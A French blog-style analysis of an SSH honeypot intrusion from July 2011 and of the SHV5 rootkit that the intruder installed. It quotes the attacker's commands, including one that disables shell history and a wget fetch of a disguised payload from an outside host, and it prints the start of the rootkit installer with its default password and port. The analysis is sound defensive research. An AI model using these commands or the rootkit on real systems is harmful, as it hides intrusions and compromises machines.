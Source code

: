 ```yaml
---
title: "Intrusion du 19 juillet 2011 : Analyse du rootkit SHV5"
tags: [honeypot, rootkit, reverse engineering]
---
```


## Introduction

Le 19 juillet 2011, un nouvel intrus a fait irruption sur ce qu'il pensait être un système Unix faisant tourner un serveur SSH alors qu'il s'agissait en réalité du honeypot SSH, un outil destiné à leurrer les hackers, surveiller leurs activités et récupérer leurs scripts.  

Le pirate n'est pas apparu par hasard sur la machine. Il a réalisé une attaque brute force sur le compte root du serveur SSH simulé par `Kippo`.  

Sur cette journée j'ai eu deux attaques brute force concluantes : la première à 10h49 provenant de l'IP `84.14.252.138` et la seconde à 12h03 venant de `123.30.49.8`.  

Difficile de dire sur laquelle de ces attaques s'est basé le pirate puisqu'il a fait une connexion directe plus tard avec une IP différente : `174.36.18.156`.  

La première commande lancée sur le système a été `w` pour s'assurer qu'il était le seul connecté sur le serveur et que sa présence ne serait pas vue par un autre utilisateur.  

Il a ensuite affiché le contenu du fichier `/proc/cpuinfo` pour obtenir des informations sur le système et lancé `ifconfig` pour afficher les interfaces réseau.  

La commande `wget` a aussi été lancée sans arguments, juste pour vérifier que le programme était bien présent sur le système.  

Pour empêcher l'historisation de sa session il a copié/collé la commande suivante :

```bash
unset HISTFILE HISTSAVE HISTMOVE HISTZONE HISTORY HISTLOG USERHOST REMOTEHOST REMOTEUSER
```

Il s'est ensuite placé dans le dossier `/var/tmp` pour récupérer avec `wget` un fichier à l'adresse http://unixcrew.t35.com/rk.jpg

Ce fichier à l'extension `jpg` est en réalité une archive `tgz` qui une fois décompressée génère un dossier `.rc` contenant un fichier `setup` ainsi que d'autres archives `tgz`.  

Le pirate ne prend pas plus de temps pour explorer le système et exécute immédiatement le script avec `./setup unixteam 1985`.  

SHV5 : Script d'installation
----------------------------

Le fichier `setup` est un script bash qui installe un rootkit bien connu de la famille des `SHVx` (ici `SHV5`). Dû à la longueur du fichier, nous l'étudierons en plusieurs morceaux.  

Première partie :  

```bash
#!/bin/bash
#
# shv5-internal-release
# by: TheDemon
# PRIVATE ! DO NOT DISTRIBUTE BITCHEZ !

# BASIC DEFINES
DEFPASS=dacialogan
DEFPORT=7000
BASEDIR=`pwd`

# DON`T TOUCH BELOW UNLESS YOU KNOW WHAT U`R DOING !
# BEFORE WE MOVE ON LET`s WORK ON SAFE-GROUND !
export PATH=$PATH:/bin:/sbin:/usr/bin:/usr/sbin:/usr/local/bin:/usr/local/sbin

```